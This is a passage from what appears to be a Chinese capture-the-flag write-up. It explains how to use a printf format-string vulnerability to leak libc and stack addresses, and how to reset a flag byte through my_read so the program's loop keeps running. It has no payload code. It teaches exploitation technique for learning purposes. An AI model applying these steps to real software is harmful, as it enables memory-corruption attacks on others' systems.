整个程序中唯一的 `read` 就位于 `talk()` 及其调起的函数 `my_read()` 中。我们前面也说过，`my_read` 会毁掉 `flag` 这个 4 字节变量的低位字节🤔别急，这不能被称为是「毁掉」！既然 `flag` 已经由 `0` 异或运算为 `1`，`my_read()` 一梭子上来，不就给 `flag` 又干回 `0` 了吗？这下看懂了😋

我们规划一下对 `talk()` 的调用：在第 1 次 `talk()` 时，我们使用格式化字符串漏洞泄露一些关键的地址，例如 `libc` 基地址或一个栈地址，然后使用 `my_read` 的特性重置 `flag` 以使得 `main` 的循环继续发生。有了泄露的地址，我们再决定下一步的操作。

但怎么用 `printf` 泄露函数地址？我们先前说过，`printf` 是一个可变参数函数，它的第一个参数是格式化字符串，后续的参数用来填充格式化字符串中 `%d`、`%s` 和 `%p` 等的占位符。那如果我们故意给 `printf` 少放一些参数，多放一些占位符呢？

> [!TIP]
> 按照调用约定，函数的前几个参数会通过寄存器传递，例如 `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`。当我们在 C 代码中使用 `printf("Hello, %s", name);` 时，`"Hello, %s"` 作为 `printf` 的第一个参数（格式化字符串）被放入了 `rdi` 寄存器，随后 `name` 作为第二个参数被放入 `rsi` 寄存器中。
>
> 倘若 `printf` 具有更多参数，它们会被依次放入寄存器；若寄存器的个数仍无法满足参数的存放，多余的参数则会被压入栈中。但 `printf` 本身并不知道它被调用时传递了多少个参数：`printf` 只会解析第一个参数中 `%` 占位符的个数来决定需要多少个参数。当我们向 `printf` 的格式化字符串中传入过多 `%` 占位符后，`printf` 就会按照寄存器到栈的顺序依次查找。那么问题来了，当我们提供了多余参数的占位符数量后，`printf` 会从哪里寻找多于参数的值呢？答案是，它会继续从栈上读取！这样，`printf` 就会把自己的栈帧和相邻的栈帧当成指针统统打印出来，而这些指针中，或许就包括栈地址、`libc` 地址 和/或 其他敏感数据！
>
> 不过我们可能会心生疑惑：`main` 函数会返回到哪呢？事实上，程序启动的时候，并非是直接跳转到 `main` 函数；它通常会由 `libc` 中的一个函数（`__libc_start_main`）负责准备好环境，然后再调用 `main` 函数；所以，`main` 函数执行完毕后，会返回 `__libc_start_main` 中。如果我们用 `printf` 继续向下打印地址，那就非常有可能够到 `main` 函数栈帧中的返回地址！
